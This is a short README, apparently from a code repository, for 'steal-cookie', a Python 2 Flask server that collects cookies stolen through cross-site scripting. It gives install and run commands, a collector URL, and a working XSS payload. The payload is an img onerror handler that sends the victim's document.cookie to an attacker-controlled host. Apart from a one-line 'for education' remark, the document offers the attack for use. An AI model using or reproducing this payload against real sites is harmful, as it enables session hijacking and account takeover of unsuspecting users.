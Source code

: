 # steal-cookie
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# Cookie Path :


````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://YOU_IP/cookie?cookie=" + document.cookie'>
  ````
  

# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

- Facebook : <a href="https://www.facebook.com/profile.php?id=100015121337012" >Khaled Nassar</a>

